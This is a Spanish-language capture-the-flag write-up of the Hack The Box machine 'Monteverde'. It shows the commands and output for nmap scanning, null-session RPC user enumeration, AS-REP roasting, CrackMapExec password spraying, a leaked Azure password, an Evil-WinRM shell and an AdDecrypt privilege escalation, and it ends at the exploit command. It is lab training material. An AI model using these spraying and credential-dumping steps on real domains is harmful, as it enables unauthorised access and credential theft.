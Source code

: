 ----
- Tags:
-------
## Técnicas utilizadas
- RPC Enumeration  
- Credential Brute Force - CrackMapExec  
- Shell Over WinRM  
- Abusing Azure Admins Group - Obtaining the administrator's password (Privilege Escalation)
## Procedimiento

![[Pasted image 20230812031637.png]]

#### Reconocimiento
Si lanzamos un **nmap** sobre la maquina, nos encontramos los siguientes puertos abiertos:
```ruby
# nmap -sCV -p53,88,135,139,389,445,464,593,636,5985,9389,49667,49673,49674,49676,49697 -oN Ports 10.10.10.172
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-13 02:53 UTC
Nmap scan report for 10.10.10.172
Host is up (0.079s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-13 02:48:50Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -4m39s
| smb2-time: 
|   date: 2023-08-13T02:49:40
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.09 seconds
```

----------
#### RPC Enumeration  
Si intentamos conectanos al recuerso **RCP** haciendo uso de un **NULL SESSION** podemos empezar a enumerar usuarios y grupos:
```
# rpcclient -U '10.10.10.10' -N
```

**Enumerar usuarios del dominio**:
```
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

**Enumerar grupos del dominio**:
```
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Azure Admins] rid:[0xa29]
group:[File Server Admins] rid:[0xa2e]
group:[Call Recording Admins] rid:[0xa2f]
group:[Reception] rid:[0xa30]
group:[Operations] rid:[0xa31]
group:[Trading] rid:[0xa32]
group:[HelpDesk] rid:[0xa33]
group:[Developers] rid:[0xa34]
```

**Enumerar la información de todos los usuarios**:
```
rpcclient $> querydispinfo
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2	Name: AAD_987d7f2f57d2	Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos	Name: Dimitris Galanos	Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope	Name: Mike Hope	Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary	Name: Ray O'Leary	Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs	Name: SABatchJobs	Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan	Name: Sally Morgan	Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata	Name: svc-ata	Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec	Name: svc-bexec	Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp	Name: svc-netapp	Desc: (null)
```

Ahora que tenemos un listado potencial de usuarios, podemos intentar un **ASREPRoast attack**. Ejecutaremos el siguiente comando:
```ruby
# impacket-GetNPUsers.py MEGABANK.LOCAL/ -no-pass -userfile user.txt
```

--------------
#### Credential Brute Force - CrackMapExec  
Viendo que lo anterior no funciono dado que ningun usuario cuenta con el **UF_DONT_REQUIRE_PREAUTH**, podemos intentar un **Password Spray** con el mismo listado de usuarios pero intentando como contraseña el mismo listado de usuario. Esto lo haremos con **CrackMapExec** de la siguiente manera:
```
# crackmapexec smb 10.10.10.10 -u users.txt -p users.txt --continue-on-success
```

Y encontramos la siguiente credencial valida:
![[Pasted image 20230813030520.png]]

dentro de los recursos compartidos que podemos listar, vemos que hay uno de nombre **$users** el cual, dentro de alguna de sus carpetas hay unas credenciales para **Azure**:
```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

Con esta contraseña, podemos hacer **Password Spray** para ver a que usuario pertenece (de el listado que sacamos antes):
```
# crackmapexec smb 10.10.10.10 -u users.txt -p 'passwords' --continue-on-success
```

Y encontramos un usuario valido para esta contraseña:
![[Pasted image 20230813031123.png]]

------------------
#### Shell Over WinRM  
Con estas credenciales nos podemos conectar a través de **WinRM** con **Evil-WinRM** y estariamos en la maquina ya como el usuario **mhope**:
![[Pasted image 20230813031235.png]]

-----------
#### Abusing Azure Admins Group - Obtaining the administrator's password (Privilege Escalation)
Dentro de la maquina, como sabemos que existen un **Azure** podemos empezar a enumerarlo desde dentro. En el directorio **Program Files** existe una carpeta de nombre **Microsoft Azure AD Sync**, si buscamos en google por vulnerabilidades encontramos el siguiente [articulo](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/). Basicamente tenemos que descarganos este [ZIP](https://github.com/VbScrub/AdSyncDecrypt/releases/download/v1.0/AdDecrypt.zip), lo descomprimios y de lo resultante, tendriamos que subir a la maquina victima el **AdDecrypt.exe** y el **mcrypt.ddl**.

Buen, para que el exploit funcione, tenemos que estar en la siguiente ruta: `C:\Program Files\Microsoft Azure AD Sync\bin` y desde ahi ejecutar el siguiente comando `AdDecrypt.exe -FullSQL` 